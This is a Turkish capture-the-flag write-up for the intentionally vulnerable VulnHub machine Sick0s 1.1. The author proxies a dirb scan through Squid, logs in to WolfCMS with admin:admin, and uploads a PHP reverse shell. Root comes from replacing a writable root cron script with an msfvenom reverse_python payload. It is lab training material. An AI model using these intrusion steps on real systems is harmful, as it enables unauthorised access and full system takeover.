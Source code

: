 ```yaml
---
layout: post
title: "Sick0s:1.1 Writeup"
date: 2018-06-08
excerpt: "08 Jun 2018"
comments: false
---
```

Sick0s 1.1 zafiyetli makinasında bizden istenen root yetkilerine erişmek. Quaoar'da karşılaştığımız senaryo ile oldukça benzer.
Makinayı indirmek,daha ayrıntılı bilgi almak için [bu](https://www.vulnhub.com/entry/sickos-11,132/) linki kullanabilirsiniz.

Öncelikle makinaya ait ip adresini buldum.
<figure >
    <img src="/assets/img/sickos/sickosip.png">
</figure>
Ardından basit bir nmap taraması ile açık portları ve üzerinde çalışan servisleri öğrendim .
<figure >
    <img src="/assets/img/sickos/sickosnmap.png">
</figure>
Aldığım çıktı sonucunda çok mu basit oldu diye düşünmedim değil. Daha geniş bir port aralığını taramaya karar verdim.
Zaman alan bir tarama olduğu için bu esnada Squid Http Proxy nedir, ne iş yapar diye biraz bakındım. Özet olarak  böyle bir sonuca vardım.
```
 Squid HTTP,HTTPS,FTP gibi web servisleri için proxy cache yapan aynı zamanda internet çıkışlarını filtreliyerek yönetmeyi sağlayan bir proxy serverdır.
```
Bu proxy server üzerinden bir nmap taraması başlatmadan önce, tarayıcıda proxy ayarlarını set edip 80 portuna gitmeyi denedim ve başarılı oldum. 
<figure >
    <img src="/assets/img/sickos/sickosproxy.png">
</figure>
Dikkatimi çeken herhangi bir şey ile karşılaşmadım ve proxy üzerinden fuzzing işlemi başlattım.
```
dirb http://192.168.1.53 -p 192.168.1.53:3128
```
<figure >
    <img src="/assets/img/sickos/sickosdirb.png">
</figure>
http://192.168.1.53/robots.txt adresini ziyaret ettiğimde /wolfcms şeklinde bir entry ile karşılaştım.Wolfcms hakkında daha önce fikir sahibi olmadığım için başlangıçta bir servis olduğunu anlayamadım. Üzerine biraz araştırma yaptıktan sonra PHP tabanlı bir "content management system" olduğunu öğrendim. Muhtemelen zafiyetli bir versiyondur düşüncesiyle, versiyon bilgisinin sızdırıldığı bir sayfa bulmak için baya dolandım. Fakat bir sonuca ulaşamadım.

Exploit ararken http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/ şeklinde bir path buldum. Daha önce /wolfcms dizini için fuzzing yapmıştım, fakat  ?/dizin şeklinde yapılandığı için işe yarar çok bir şey dönmemişti.
Bu sayede  login sayfasına erişim sağladım. Daha önceki hatalarımdan ders çıkarıp ilk olarak admin:admin ikilisini denedim ve başarıyla sonuçlandı :)

Tabi ki ilk işim php reverse shell içeren bir php kodu yüklemek oldu.Daha önce fuzzing işlemi sırasında /wolfcms/public/images pathini öğrenmiştim. Files>upload kısmından [buradaki](https://github.com/pentestmonkey/php-reverse-shell) kodu  images/ dizinine  yükleyip, tarayıcıdan çağırdığımda www-data kullanıcısı ile bir shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosshell.png">
</figure>
Sistem hakkında genel bir bilgi sahibi olabilmek için [bu](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) scripti çalıştırdım.

Post exploitation için best practice olarak kabul edilen şeylerden birini yapıp, var olan cron dosyalarını inceledim.
<figure >
    <img src="/assets/img/sickos/sickoscron.png">
</figure>
Dosyalardan birini okuduğumda, root kullanıcısı tarafından her dakika çalıştırılan bir script ile karşılaştım.
<figure >
    <img src="/assets/img/sickos/sickoscron2.png">
</figure>
Scriptin var olduğu dizine gittiğimde güzel bir sürpriz beni bekliyordu :) .Dosya üzerinde tüm haklara sahiptim.Demek oluyorki dosyayı istediğim gibi manipüle edebilirim.
<figure >
    <img src="/assets/img/sickos/sickospy.png">
</figure>
Connect.py dosyasının içeriğini bana shell verecek olan bir python koduyla değiştirdim.Bunun için msfvenom ile bir payload oluşturdum. 
```
msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.55 LPORT=7777 -f raw
```
Connect.py dosyasının içeriğini payload ile değiştirip, ardından bir dinleme başlatıp sistemin scripti çalıştırmasını bekledim. 
<figure >
    <img src="/assets/img/sickos/sickosx.png">
</figure>
Scripti çalıştıran root kullanıcısı olduğu için dolayısıyla bende root yetkileri ile shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosroot.png">
</figure>
<figure >
    <img src="/assets/img/sickos/sickos.gif">
</figure>
